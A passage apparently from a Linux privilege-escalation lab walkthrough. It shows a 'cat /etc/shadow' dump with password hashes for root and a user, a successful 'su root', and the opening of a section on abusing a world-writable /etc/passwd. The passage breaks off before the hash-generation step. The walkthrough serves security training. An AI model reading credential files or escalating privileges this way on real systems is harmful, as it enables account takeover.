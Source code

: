 ```
user@debian:~/tools/mysql-udf$ cat /etc/shadow
root:$6$a2PjThbLcYFudFW$wbNMrIVifKU/9aVvwiXc.XFDJ1l.kMEFbswTfat8wBrXiYopSnALl/WhTG.UmYY0Jf4L8Hf8vtKA3YmxGGSpy1:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

```
user@debian:~/tools/mysql-udf$ su root
Password: 
root@debian:/home/user/tools/mysql-udf# cd ~
root@debian:~# 
root@debian:~# exit
exit
user@debian:~/tools/mysql-udf$
```

`No answer needed`

## Weak File Permissions - Writable /etc/passwd

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

`ls -l /etc/passwd`

Generate a new password hash with a password of your choice:

